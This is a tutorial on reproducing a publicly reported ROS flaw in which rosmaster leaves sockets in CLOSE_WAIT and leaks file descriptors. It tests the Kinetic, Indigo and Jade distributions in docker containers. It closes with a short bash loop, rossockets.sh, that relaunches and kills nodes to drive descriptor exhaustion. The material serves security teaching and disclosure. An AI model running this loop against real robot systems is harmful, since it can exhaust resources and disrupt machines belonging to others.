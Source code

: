 ### Sockets left open and in CLOSE_WAIT state in ROS (`Jade` distro and before)

In this tutorial we'll exploit the vulnerability. First reported in April 2015 at https://github.com/ros/ros_comm/issues/610, the underlying httplib in `ros_comm` implements things so that connections are only closed if you are sending the header "connection: close". Although a client might close the connection, the socket remains in the `CLOSE_WAIT state [3, 4].

----

**Note**: as in previous tutorials, there's a docker container that facilitates reproducing the work of this tutorial. The container can be built with:
```bash
docker build -t basic_cybersecurity13:latest .
```
and run with:
```bash
docker run -it basic_cybersecurity13:latest
```

----

### Reproducing the flaw

#### Kinetic
Let's start with `Kinetic` and attempt to reproduce it as reported at https://github.com/ros/ros_comm/issues/610#issuecomment-100301061:
```bash
docker build -f Dockerfile.kinetic -t basic_cybersecurity13:latest . # build the kinetic Dockerfile
docker run -it basic_cybersecurity13:latest
root@4256f9eb9567:~# roscore &
root@4256f9eb9567:~# roslaunch /opt/ros/kinetic/share/roscpp_tutorials/launch/talker_listener.launch
...
^C
root@4256f9eb9567:~# roslaunch /opt/ros/kinetic/share/roscpp_tutorials/launch/talker_listener.launch
...
^C

```

in another command line:
```bash
watch -n0 "lsof | grep rosmaster | grep -c CLOSE_WAIT"
Every 0.1s: lsof | grep rosmaster | grep -c CLOSE_WAIT                       Fri Nov  2 12:34:36 2018

0

```

at some point, while re-launching and re-stopping the launchfile, we'll see:
```bash
Every 0.1s: lsof | grep rosmaster | grep -c CLOSE_WAIT                       Fri Nov  2 12:37:29 2018

5
```
in those cases:
```bash
root@5f6d4b210151:/# netstat -aeltnp | grep CLOSE_WAIT
tcp        1      0 172.17.0.2:35586        172.17.0.2:34571        CLOSE_WAIT  0          196101      48/python
tcp        0      0 172.17.0.2:45520        172.17.0.2:11311        CLOSE_WAIT  0          136921      61/rosout
```

but as soon as `root@4256f9eb9567:~# roslaunch /opt/ros/kinetic/share/roscpp_tutorials/launch/talker_listener.launch` is executed again, the number of file descriptors return to 0.

There seems to be a small glitch in `Kinetic` distro but the FDs leakeage seems to be contained. **No issues with Kinetic distro**.

#### Indigo

```bash
docker build -f Dockerfile.indigo -t basic_cybersecurity13:latest . # build the indigo Dockerfile
docker run -it basic_cybersecurity13:latest
roscore &
roslaunch /opt/ros/indigo/share/roscpp_tutorials/launch/talker_listener.launch
... logging to /root/.ros/log/280ed2ea-de98-11e8-b9b0-0242ac110002/roslaunch-4256f9eb9567-1088.log
Checking log directory for disk usage. This may take awhile.
Press Ctrl-C to interrupt
Done checking log file disk usage. Usage is <1GB.

started roslaunch server http://4256f9eb9567:43961/

SUMMARY
========

PARAMETERS
 * /rosdistro: indigo
 * /rosversion: 1.11.21

NODES
  /
    listener (roscpp_tutorials/listener)
    talker (roscpp_tutorials/talker)

ROS_MASTER_URI=http://localhost:11311

core service [/rosout] found
process[listener-1]: started with pid [1106]
process[talker-2]: started with pid [1107]
[ INFO] [1541160590.106715200]: hello world 0
[ INFO] [1541160590.207328800]: hello world 1
...
^C
```

Repeat the following a few times:
```bash
roslaunch /opt/ros/indigo/share/roscpp_tutorials/launch/talker_listener.launch
... logging to /root/.ros/log/280ed2ea-de98-11e8-b9b0-0242ac110002/roslaunch-4256f9eb9567-1088.log
Checking log directory for disk usage. This may take awhile.
Press Ctrl-C to interrupt
Done checking log file disk usage. Usage is <1GB.

started roslaunch server http://4256f9eb9567:43961/

SUMMARY
========

PARAMETERS
 * /rosdistro: indigo
 * /rosversion: 1.11.21

NODES
  /
    listener (roscpp_tutorials/listener)
    talker (roscpp_tutorials/talker)

ROS_MASTER_URI=http://localhost:11311

core service [/rosout] found
process[listener-1]: started with pid [1106]
process[talker-2]: started with pid [1107]
[ INFO] [1541160590.106715200]: hello world 0
[ INFO] [1541160590.207328800]: hello world 1
...
^C
```
then

```bash
root@4256f9eb9567:~# lsof | grep rosmaster | grep -c CLOSE_WAIT
10
```

or:

```bash
root@4256f9eb9567:~# netstat -aeltnp | grep CLOSE_WAIT
tcp        1      0 172.17.0.2:57826        172.17.0.2:34649        CLOSE_WAIT  0          113151      1468/python
tcp        1      0 172.17.0.2:42052        172.17.0.2:37739        CLOSE_WAIT  0          114078      1468/python
tcp        0      0 172.17.0.2:45088        172.17.0.2:11311        CLOSE_WAIT  0          114002      1454/rosout
```

(note the correlation between the `python` Program Names sockets and the amount of file descriptors open (5 times that quantity to be precise)).

There is a FDs leakeage in `Indigo` distro.

#### Jade
Same issue applies to `Jade`, FDs leakeage.

### Automating the exploitation
The simplest way to do so is to put together a script that exploits the flaw and name it `rossockets.sh`:

```bash
#!/bin/bash
while true; do
roslaunch /opt/ros/indigo/share/roscpp_tutorials/launch/talker_listener.launch & sleep 2; kill -INT %+
done
```

then:
```bash
roscore &
./rossockets.sh > /tmp/dump.txt &
watch -n0 "lsof | grep rosmaster | grep -c CLOSE_WAIT"
```

you will see how the number of file descriptors will start increasing and reach one thousand in a few minutes.

### Bibliography
- [1] Mendia, G. O., Juan, L. U. S., Bascaran, X. P., Calvo, A. B., Cordero, A. H., Ugarte, I. Z., ... & Vilches, V. M. (2018). Robotics CTF (RCTF), a playground for robot hacking. arXiv preprint arXiv:1810.02690.
- [2] Scenarios of the Robotics CTF (RCTF), a playground to challenge robot security. Retrieved from https://github.com/aliasrobotics/RCTF
- [3] rosmaster leaves sockets in CLOSE_WAIT state. Retrieved from https://github.com/ros/ros_comm/issues/610.
- [4] Close CLOSE_WAIT sockets by default. Retrieved from https://github.com/ros/ros_comm/pull/1104.
